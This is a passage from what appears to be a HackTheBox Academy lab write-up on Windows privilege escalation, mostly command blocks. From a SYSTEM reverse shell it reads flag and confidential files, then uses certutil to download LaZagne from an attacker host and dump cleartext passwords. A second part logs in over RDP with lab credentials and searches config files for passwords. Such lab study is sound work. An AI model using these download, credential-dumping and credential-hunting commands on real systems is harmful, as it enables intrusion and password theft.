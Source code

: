     ```cmd
    # on the reverse shell in second listener
    whoami
    # shell as system

    type C:\Users\Administrator\Desktop\flag.txt

    # search for confidential.txt file
    cd C:\

    dir /b/s confidential.txt
    # we get a hit

    type C:\Users\Administrator\Music\confidential.txt

    # now as privileged user, we can try searching for the password for 'ldapadmin' again

    # get lazagne.exe from attacker machine
    certutil.exe -urlcache -f http://10.10.14.252:8000/LaZagne.exe laz.exe

    laz.exe all
    # this gives us the cleartext password
    ```

* Part 2:

    ```ps
    # connect to target machine via RDP using given creds
    xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:10.129.43.33 /drive:share,/tmp
    # mounted /tmp to 'share' drive for easy access

    # search for creds

    cd C:/

    findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
    # this gives us multiple hits
    # check the interesting files for any cleartext creds

